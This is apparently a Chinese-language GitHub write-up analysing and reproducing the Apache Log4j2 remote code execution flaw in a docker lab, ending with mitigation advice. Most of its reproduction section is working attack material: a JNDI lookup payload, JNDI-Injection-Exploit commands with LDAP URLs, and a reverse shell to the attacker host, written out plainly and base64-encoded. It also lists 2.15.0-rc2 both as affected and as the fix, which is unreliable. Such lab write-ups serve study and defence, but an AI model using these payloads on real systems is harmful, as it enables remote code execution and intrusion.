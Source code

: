 Apache Log4j远程代码执行漏洞分析与复现利用

0x1：漏洞描述
2021年12月9日，Apache Log4j 的远程代码执行漏洞细节被公开，大量的业务框架都使用了该组件。此次漏洞是用于 Log4j2 提供的 lookup 功能造成的，该功能允许开发者通过一些协议去读取相应环境中的配置。该漏洞一旦被攻击者利用会造成严重危害。经过快速分析和确认，该漏洞影响范围极其广泛，危害极其严重。
Apache Log4j2是一款优秀的Java日志框架。由于Apache Log4j2某些功能存在递归解析功能，未经身份验证的攻击者通过发送特别构造的数据请求包，可在目标服务器上执行任意代码，攻击者可直接构造恶意请求，触发远程代码执行漏洞。漏洞利用无需特殊配置，经验证Apache Struts2、Apache Solr、Apache Druid、Apache Flink等均受影响。

0x2：受影响版本
Apache Log4j 2.x <= 2.15.0-rc2

供应链影响范围，已知受影响应用及组件：
Apache Solr、Apache Flink、Apache Druid、srping-boot-strater-log4j2、dubbo、Flume、Redis

0x3：漏洞级别
高危、远程代码执行，目前漏洞rce-exp已网上公开，找到受影响的参数，提交
“${jndi:ldap://****. dnslog.cn/exp}”进行测试。

0x4：漏洞环境搭建与复现
漏洞靶场搭建，网上有搭建好的docker环境漏洞靶场，需要先安装docker环境

docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/1.png) 
docker run -it -d -p 8888:8080 --name log4j_vuln_container registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln 
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh

执行完以上操作，可以访问存在Apache Log4j远程代码执行漏洞，这里192.168.32.168的ip地址是我安装了docker虚拟机的ip地址，url如下：
http://192.168.32.168:8888/webstudy/hello-fengxuan

由于该漏洞是jndi加载ldap协议就可以触发漏洞，使用
JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar进行ldap协议监听，并提前输入好需要执行的命令，命令如下：
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "touch /tmp/88888888888" -A 192.168.32.1
-C后面添加的是需要执行的命令
-A后面是监听的IP地址
 ![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/2.png) 
只要根据JDK的版本，提交不同的ldap
如果JDK 是1.7，可以使用
ldap://192.168.32.1:1389/sjrchi
如果JDK 是1.8，可以使用
ldap://192.168.32.1:1389/fojm7q

通过BurpSuite提交数据包，由于url只接受需POST数据，受影响的参数是c，在验证的时候，一定要加入
Content-Type: application/x-www-form-urlencoded;
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/3.png)  
已经接收到ldap协议数据
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/4.png)  
如果Apache Log4j远程代码执行漏洞成功，就会执行命令touch /tmp/88888888888，在tmp目录下建一个88888888888文件

进入docker环境漏洞靶场，查看命令是否执行成功，文件成功被创建
docker exec -it log4j_vuln_container /bin/bash
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/5.png)  

通过修改-C里面的命令内容，获取shell
对bash -i >& /dev/tcp/192.168.32.1/22 0>&1命令进行加密处理
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/6.png)  
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjMyLjEvMjIgMD4mMQ==}|{base64,-d}|{bash,-i}" -A 192.168.32.1
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/7.png)  
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/8.png)  
成功获取shell
![image](https://github.com/rabbitsafe/Apache-Log4j_RCE/blob/main/9.png)  

0x5：漏洞修复建议
1、升级Apache Log4j2组件到最新版本（log4j-2.15.0-rc2）：
https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2
2、其他缓解措施：
（1）禁止没有必要的业务访问外网
（2）修改jvm参数 -Dlog4j2.formatMsgNoLookups=true
（3）修改配置log4j2.formatMsgNoLookups=True
（4）将系统环境变量 FORMAT_MESSAGES_PATTERN_DISABLE_LOOKUPS 设置为 true
（5）禁止使用Apache Log4j2服务器外连，升级JDK 11.0.1 8u191 7u201 6u211或更高版本。

